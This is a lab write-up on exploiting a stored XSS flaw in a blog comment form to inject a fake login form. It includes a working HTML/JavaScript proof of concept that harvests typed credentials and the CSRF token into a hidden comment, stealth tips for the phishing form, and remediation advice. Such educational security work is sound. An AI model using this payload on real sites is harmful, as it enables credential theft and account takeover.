



# Lab: Exploiting Stored XSS to Capture Passwords (Alternative Solution)

## 1. Description

This lab demonstrates how a **stored cross-site scripting (XSS)** vulnerability in the blog comment feature can be exploited to trick a victim into submitting their username and password via a malicious login form injected into the page.

---

## 2. Vulnerability Overview

* User input in comments is stored and rendered **without sanitization**.
* Attacker can inject **arbitrary HTML alongside JavaScript**.
* Victims may be deceived into providing credentials to a fake form controlled by the attacker.

---

## 3. Proof of Concept (PoC)
```html
<input type="text" name="username">
<input type="password" name="password" onchange="atack()">
<script>
    function atack () {
        
        var token = document.getElementsByName("csrf")[0].value;
        var postId = document.getElementsByName("postId")[0].value;
        var username = document.getElementsByName("username")[0].value;
        var password = document.getElementsByName("password")[0].value;
        var data = new FormData();
        
        data.append('csrf',token);
        data.append('postId',postId);
        data.append('comment',"<span style='display:none'>"+`${username} : ${password}`+"</span> Nice post!" );
        data.append('name','victim');
        data.append('email','test@me.com');
        data.append('website','http://test');
        
        fetch('/post/comment',{
            method:"POST",
            mode:"no-cors",
            body:data,
        })
    }
</script>
```

### Screenshots
1. blog comment form containing the injected fake login inputs for capturing credentials.

2. Victim entering credentials into the attacker-injected login form on the blog post page.

3. Hidden comment containing the stolen username and password, submitted by the XSS payload.

4. Attacker logging in as the victim using credentials captured via the stored XSS attack.

5. Successfully logged in.


---

## 4. Exploit Workflow

1. Attacker submits a crafted HTML form as a blog comment.
2. Victim visits the blog post and sees the injected login form.
3. Victim enters their username and password, believing it’s a legitimate request.
4. Credentials are sent to the attacker’s controlled endpoint (or captured inline in the lab).
5. Attacker uses the stolen credentials to authenticate as the victim.

---

## 5. Stealth Considerations

* The fake login form can be styled to closely resemble the site’s real login page.
* A redirect to the actual login page after form submission helps reduce suspicion.
* Attackers may hide the malicious form until certain conditions are met (e.g., triggered by JavaScript).

---

## 6. Impact

* Victims unknowingly expose their actual account credentials, not just temporary session tokens.
* Credentials remain valid across sessions, giving the attacker persistent account access.
* Depending on the victim’s role, this could lead to privilege escalation or sensitive data exposure.

---

## 7. Remediation

* **Contextual output encoding:** properly escape user-supplied content before rendering.

* **Restrict HTML input:** do not allow raw HTML in comments.

* **Content Security Policy (CSP):** block inline JavaScript and restrict form submissions to trusted origins.

* **Multi-factor authentication (MFA):** mitigate the impact of stolen credentials.

## 8. Reflection

This lab highlights how stored XSS can be abused for social engineering and phishing, not just technical exploits like cookie theft.
The attacker leverages user trust in the application to steal credentials, bypassing purely technical defenses.

Ultimately, the vulnerability stems from **unsafe rendering of untrusted input**.
This demonstrates the importance of **defense-in-depth: sanitization, output encoding, CSP, and strong authentication measures**.